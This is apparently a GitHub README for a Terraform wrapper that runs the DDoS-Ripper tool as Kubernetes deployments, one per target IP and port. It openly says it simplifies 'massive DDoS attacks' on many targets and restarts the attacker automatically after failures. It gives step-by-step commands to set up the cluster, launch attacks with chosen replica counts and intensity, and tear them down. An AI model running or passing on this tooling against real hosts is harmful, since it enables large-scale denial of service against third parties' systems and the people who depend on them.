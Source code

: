 # DDoS-Ripper Terraform Wrapper over Kubernetes

## Description
A wrapper for [DDoS-Ripper](https://github.com/palahsu/DDoS-Ripper)
that launches Kubernetes deployments for each specified IP and port.
Simplifies massive DDoS attacks for a large number of targets and automatically
relaunches DDoS-Ripper in case of failure.

## Usage example with minikube
### Preparing the environment
[Docker](https://www.docker.com/get-started),
[minikube](https://minikube.sigs.k8s.io/docs/start/) and
[Terraform](https://www.terraform.io/downloads) must be installed before
proceeding. Docker also must be running.

`minikube start --cpus <YOUR_NUMBER_OF_CORES>`

`terraform init`


### Starting an attack

Default configuration:

`terraform apply -auto-approve -var targets=IP1:PORT1,IP2:PORT2`

Custom configuration:

```terraform apply -auto-approve -var targets=IP1:PORT1,IP2:PORT2 -var replicas=2 -var turbo=443```


### Checking the running PODs

`kubectl get pod --namespace="dripper"`

### Stopping the atack

`terraform destroy -auto-approve`

## Input parameters

`targets` - target IP and ports specified in format `IP1:PORT1,IP2:PORT2`

`replicas` - number of replicas for each target

`turbo` -  DDOS intensity. Can be either 135 or 443
